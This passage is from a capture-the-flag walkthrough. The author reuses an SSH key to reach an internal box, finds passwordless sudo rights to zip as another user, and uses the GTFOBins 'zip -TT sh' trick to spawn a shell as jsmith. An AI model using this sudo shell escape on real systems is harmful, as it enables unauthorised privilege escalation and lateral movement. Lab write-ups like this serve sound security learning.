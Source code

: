 ~~~
wileec@Erit:~$ ls -la ~/.ssh
ls -la ~/.ssh
total 20
drwxr-xr-x 2 wileec wileec 4096 Apr 25 15:32 .
drwxr-xr-x 4 wileec wileec 4096 Apr 25 17:15 ..
-rw------- 1 wileec wileec 1675 Apr 25 15:19 id_rsa
-rw-r--r-- 1 wileec wileec  393 Apr 25 15:19 id_rsa.pub
-rw-r--r-- 1 wileec wileec  222 Apr 25 15:32 known_hosts
~~~

Connect:

~~~
wileec@Erit:~$ ssh wileec@192.168.100.1
ssh wileec@192.168.100.1

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr 25 12:36:02 2020 from 192.168.100.100
~~~

From this new box, let's see our privileges:

~~~
$ sudo -l
sudo -l
Matching Defaults entries for wileec on Securus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User wileec may run the following commands on Securus:
    (jsmith) NOPASSWD: /usr/bin/zip
$ 
~~~

We can run `zip` as user `jsmith` using sudo without password, which is great because there is a way to [get a shell](https://gtfobins.github.io/gtfobins/zip/) from it:

Answer: `(jsmith) NOPASSWD: /usr/bin/zip`

# [Task 8] Privesc #2

Using the sudo-trick, we’re now mr or mrs Smith (and admit, who does not want to be a Mr. or Mrs. Smith once in their life?), as an extra reward, there is flag 2 here.

## #8.1 - Flag 2

Let's do a lateral move to `jsmith`:

~~~
$ TF=$(mktemp -u)
$ sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'
$ sudo rm $TF
$ SHELL=/bin/bash script -q /dev/null
jsmith@Securus:/home/wileec$ cd
cd
jsmith@Securus:~$ ls -la
ls -la
total 24
drwxrwx--- 2 jsmith jsmith 4096 Apr 25 12:39 .
drwxr-xr-x 4 root   root   4096 Apr 26 04:01 ..
-rw-r--r-- 1 jsmith jsmith  220 Nov  5  2016 .bash_logout
~~~